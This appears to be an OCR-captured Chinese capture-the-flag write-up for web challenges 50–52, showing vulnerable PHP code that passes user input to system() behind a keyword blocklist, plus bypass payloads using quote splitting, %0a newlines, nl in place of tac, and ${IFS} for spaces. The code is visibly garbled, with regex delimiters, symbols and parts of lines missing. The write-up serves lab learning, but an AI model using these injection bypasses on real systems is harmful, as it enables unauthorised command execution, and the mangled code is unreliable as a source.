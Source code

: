 payload 同上关一样。

web50~多过滤% x09 x26
php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match(;catflag [0-9]$morelessheadsorttailsedcutawkstringsodcurl`%x09x26i, $c)){
        system($c. devnull 2&1);
    }
}else{
    highlight_file(__FILE__);
} 
多过滤%、09、26

c=tacfla''g.php%0a

c=tacflag.php%0a
web51~多过滤tac
php
​
sset($_GET['c'])){
$c=$_GET['c'];
if(!preg_match(;catflag [0-9]$morelessheadsorttailsedcuttacawkstringsodcurl`%x09x26i, $c)){
system($c.devnull 2&1);
}
}else{
highlight_file(__FILE__);
}
这回额外过滤了tac,但是我们还可以用nl

c=nlflag.php%0a
web52~多过滤重定向符但没过滤 $
php
​
if(isset($_GET['c'])){
$c=$_GET['c'];
if(!preg_match(;catflag [0-9]morelessheadsorttailsedcuttacawkstringsodcurl`%x09x26i, $c)){
system($c.devnull 2&1);
}
}else{
highlight_file(__FILE__);
}
​
额外过滤了 重定向符 ,但是这里没过滤$

去查c=nl${IFS}flag.php%0a得到$flag=flag_here;得到了一个假的flag.

查询根目录有啥文件

c=ls${IFS}%0a
# bin dev etc flag home lib media mnt opt proc root run sbin srv sys tmp usr var 
